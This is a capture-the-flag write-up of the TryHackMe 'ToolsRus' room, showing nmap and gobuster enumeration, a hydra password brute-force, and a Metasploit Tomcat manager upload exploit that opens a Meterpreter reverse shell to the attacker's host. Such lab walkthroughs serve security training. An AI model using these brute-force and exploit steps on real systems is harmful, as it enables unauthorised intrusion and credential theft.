 # ToolsRus
> 4lch3my | March 09, 2023
-------------------
#### Practise using tools such as dirbuster, hydra, nmap, nikto and metasploit
#### [Room Link](https://tryhackme.com/room/toolsrus)

## Tasks
##### 1. ToysRus
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>

To start, I use [nmap] which is default option on the perosnal Kali install I have. We start with a basic command `nmap -sC -sV -A MACHINE_IP `
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A outputs in agressive mode, so we can follow along with the commands and enumeration.
In our NMAP results we get:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-03-09 00:50 GMT
Nmap scan report for ip-MACHINE_IP.eu-west-1.compute.internal (MACHINE_IP)
Host is up (0.00066s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:99:f5:94:27:2c:18:9e:ad:03:ef:e8:2e:33:48:40 (RSA)
|   256 4c:73:c5:35:de:02:26:07:fe:dd:92:ed:38:2c:3f:7c (ECDSA)
|_  256 49:d0:53:8b:7c:99:a6:21:7d:40:6c:74:9d:b7:90:80 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
MAC Address: 02:5B:94:C2:14:BD (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=3/9%OT=22%CT=1%CU=40054%PV=Y%DS=1%DC=D%G=Y%M=025B94%TM
OS:=64092D51%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=I%TS=8)
OS:SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=RD%II=I%TS=8)OPS(O1=M2301ST11NW7%O2=M23
OS:01ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)
OS:WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=
OS:6903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N
OS:)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```
We see 4 open ports: `22 - SSH`, `80 - HTTP`, `1234 - HTTP` & `8009 - ajp13` what is an Apache service running. Before we visit the webpages lets run a quick adn dirty `GoBuster` scan with: `gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`on port 80:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://MACHINE_IP/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/03/08 23:56:41 Starting gobuster
===============================================================
/guidelines (Status: 301)
/protected (Status: 401)
/server-status (Status: 403)
===============================================================
2023/03/08 23:57:10 Finished
===============================================================
```

And on port `1234`: `gobuster dir -u http://MACHINE_IP:1234/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://MACHINE_IP:1234/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/03/09 01:00:14 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
===============================================================
2023/03/09 01:00:46 Finished
===============================================================
```
Time to visit all the directorys. Let's go!
<br>

Fist the main page: `http://MACHINE_IP/`. Empty!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/ToolsRUs.PNG.PNG?raw=true)

Next will be: `http://MACHINE_IP/guidelines/`. And we found our username!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUS/images/bob.PNG?raw=true)

And finally: `http://MACHINE_IP/protected`. We get stopped by an authentication popup asking for a username:password combination. Time for some good old bruteforcing with `hydra`.
<br>

We already know our user, `bob`, `MACHINE_IP`, and `/protected/` directory so we can start a `http-get` attack against our machine with the wordlist of our choise. As this is a `THM machine`, we suspect that the password will be located within the usual `rockyou.txt` file. To to run the attack: `hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.241.174 http-get /protected/`.

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2023-03-09 00:11:04
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://10.10.241.174:80//protected/
[80][http-get] host: 10.10.241.174   login: bob   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-03-09 00:11:17
```

Only after a few seconds we find our `password` for the user `bob`. Time to log in to the password protected section of this web server.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/rabbit_hole.PNG?raw=true)

And that's the end of that page. Moving on to the `http://MACHINE_IP:1234/`, where we are greated with the `Apache Tomcat/7.0.88` default page.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/Tomcat.PNG?raw=true)

After a quick `Google` or `ChatGPT` seearch we can see that this app is quite old and has multiple `CVE's` dedicated to it. Seems like the website admin did not update this for a long time. Making our lifes easier I see... Moving on to actually getting on to this machine and grabing the final flag. As instructed by the box, we will use `Metasploit` to answer the last two questions. 
<br>

After switching to the `Metasploit Console` with the command `mfconsole`, we can search for Tomcat vulnerabilities in the databased stored in the app: `msf6 > search Tomcat`

```
Matching Modules
================

   #   Name                                                            Disclosure Date  Rank       Check  Description
   -   ----                                                            ---------------  ----       -----  -----------
   0   auxiliary/dos/http/apache_commons_fileupload_dos                2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   1   exploit/multi/http/struts_dev_mode                              2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   2   exploit/multi/http/struts2_namespace_ognl                       2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3   exploit/multi/http/struts_code_exec_classloader                 2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   4   auxiliary/admin/http/tomcat_ghostcat                            2020-02-20       normal     Yes    Apache Tomcat AJP File Read
   5   exploit/windows/http/tomcat_cgi_cmdlineargs                     2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
   6   exploit/multi/http/tomcat_mgr_deploy                            2009-11-09       excellent  Yes    Apache Tomcat Manager Application Deployer Authenticated Code Execution
   7   exploit/multi/http/tomcat_mgr_upload                            2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
   8   auxiliary/dos/http/apache_tomcat_transfer_encoding              2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   9   auxiliary/scanner/http/tomcat_enum                                               normal     No     Apache Tomcat User Enumeration
   10  exploit/linux/local/tomcat_ubuntu_log_init_priv_esc             2016-09-30       manual     Yes    Apache Tomcat on Ubuntu Log Init Privilege Escalation
```

The 6th `exploit` on the list `/multi/http/tomcat_mgr_deploy` seems to be exactly what we need. Let's switch to it and configure it:

```
msf6 > use exploit/multi/http/tomcat_mgr_uplo
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.241.174
RHOSTS => 10.10.241.174
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles
HttpPassword => bubbles
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob
HttpUsername => bob
```
Now after it is configured correctly, we can run it:

```
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on HOST_IP:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying l1BnwvSyQFkgg2c8bgBYXr...
[*] Executing l1BnwvSyQFkgg2c8bgBYXr...
[*] Undeploying l1BnwvSyQFkgg2c8bgBYXr ...
[*] Sending stage (58851 bytes) to MACHINE_IP
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (HOST_IP:4444 -> MACHINE_IP:41378) at 2023-03-09 00:45:54 +0000

meterpreter >
```

Success we have access! We can now grab the flag and complete this room!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUS/images/flag.PNG?raw=true)

#### Thank you for checking out my writeup about the THM room: RootMe! If you are interested in other writeups of mine or interetsed in some of my codeing work, please feel free to look around my GitHub page! Happy hacking! - 4lch3myí